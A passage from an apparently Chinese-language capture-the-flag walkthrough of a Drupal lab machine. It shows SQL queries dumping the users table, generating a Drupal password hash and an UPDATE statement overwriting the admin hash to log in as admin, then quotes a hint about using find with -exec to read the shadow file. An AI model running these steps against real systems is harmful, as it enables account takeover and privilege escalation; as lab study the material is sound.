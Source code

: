 ```
select * from node;
select * from users;
```

![upload successful](https://lnng.top/images/pasted-118.png)

**upload successful**

  
为什么要看node表呢？？？(user表就不说了吧)  
因为drupal node机制  
[drupal node机制理解](https://www.cnblogs.com/amw863/p/4551889.html)  
so，尝试获得登录的密码，hash值破解可能不太现实  
我们注册一个账号将二者hash互换不就可以了  
我丢不行，注册没法写密码，  
那找到加密脚本自己加密一个不就行了  
加密脚本位置

scripts/password-hash.sh  

![upload successful](https://lnng.top/images/pasted-119.png)

**upload successful**

```
php scripts/password-hash.sh admin

password: admin                 hash: $S$DyyA5HnUonyq8xJJZeWKGIsIxaDpzGM6jbKqPiERZ/lLMnsWkUB.
```

尝试更换管理员密码的hash

```
update users set pass='$S$DyyA5HnUonyq8xJJZeWKGIsIxaDpzGM6jbKqPiERZ/lLMnsWkUB.' where name='admin';
```

![upload successful](https://lnng.top/images/pasted-120.png)

**upload successful**

  
下面登录测试一下,账号admin密码admin  

![upload successful](https://lnng.top/images/pasted-121.png)

**upload successful**

  
在content中发现  

![upload successful](https://lnng.top/images/pasted-122.png)

**upload successful**

  
Special PERMS will help FIND the passwd - but you’ll need to -exec that command to work out how to get what’s in the shadow.

### [](https://lnng.top/posts/2ea3.html#%E4%B9%9F%E5%B0%B1%E6%98%AF%E8%AF%B4%E6%88%91%E4%BB%AC%E9%9C%80%E8%A6%81%E5%AF%BB%E6%89%BE%E5%AF%86%E7%A0%81%EF%BC%8C%E8%80%8C%E4%B8%94%E6%8F%90%E7%A4%BAshadow%EF%BC%8C%E4%B9%8B%E5%89%8D%E7%9A%84flag4%E8%BF%98%E6%B2%A1%E7%9C%8B "也就是说我们需要寻找密码，而且提示shadow，之前的flag4还没看")也就是说我们需要寻找密码，而且提示shadow，之前的flag4还没看
